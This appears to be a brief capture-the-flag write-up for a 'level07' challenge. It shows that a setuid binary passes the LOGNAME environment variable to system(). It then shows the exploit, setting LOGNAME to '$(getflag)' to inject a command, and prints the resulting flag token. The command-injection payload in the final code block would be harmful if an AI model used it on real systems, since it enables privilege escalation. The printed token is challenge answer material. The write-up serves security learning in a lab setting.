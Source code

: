 ```sh
$> ls -l ~
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

$> ./level07
level07

$> strings level07
[...]
LOGNAME
/bin/echo %s
[...]

$> LOGNAME=test

$> ./level07
test
```

The code contains something like:
```c
system("/bin/echo %s", getenv("LOGNAME"));
```

Since `system()` will create a shell process, we can use `$LOGNAME` to execute a `/bin/getflag`

```sh
$> LOGNAME='$(getflag)'

$> ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
